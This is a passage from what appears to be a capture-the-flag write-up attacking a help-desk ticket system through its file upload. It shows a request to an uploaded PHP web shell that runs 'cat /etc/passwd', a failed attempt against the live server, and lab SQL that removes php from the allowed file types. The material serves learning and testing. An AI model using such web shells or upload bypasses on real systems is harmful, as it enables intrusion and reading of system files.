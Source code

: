 ```
http://192.168.33.10/public_html/uploads/tickets/9f40f4d0870376408d34edc39180e2d1.php?a=cat%20/etc/passwd
```

Tango Down!

[tango](images/tangodown.jpg)


## Testing in Live (1 of many)

Let's try this over on the live server, even though we know we're missing one ingredient: __the timestamp__.


Straight away we get the following response: 

```
File is not allowed.
```

Back to the testing lab!

## Messing with the filetypes

What happens when we upload something that triggers that second response? And how do we trigger it?

We can speculate that the developers of this challenge have removed `php` from the allowed filetypes on the server. We've already seen in the code that all the information is coming from the database, including the allowed filetypes. So if we modify our system to reject `php` files and see what happens that'll be a good starting place.

OK, so after quickly brushing up on my SQL:

```
DELETE FROM hdz_file_types WHERE type = "php";
```

Check that hit the right row:

```
mysql> select * from hdz_file_types;                                                                                                                                                                            
+----+------+------+                                                                       
| id | type | size |                                                                       
+----+------+------+                                                                       
|  1 | gif  | 0    |                                                                       
|  2 | png  | 0    |                                                              
|  3 | jpeg | 0    |
|  4 | jpg  | 0    |
|  5 | ico  | 0    |
|  6 | doc  | 0    |
|  7 | docx | 0    |
|  8 | xls  | 0    |
|  9 | xlsx | 0    |
| 10 | ppt  | 0    |
| 11 | pptx | 0    |
| 12 | txt  | 0    |
| 13 | htm  | 0    |
| 14 | html | 0    |
| 16 | zip  | 0    |
| 17 | rar  | 0    |
| 18 | pdf  | 0    |
+----+------+------+
17 rows in set (0.00 sec)
```
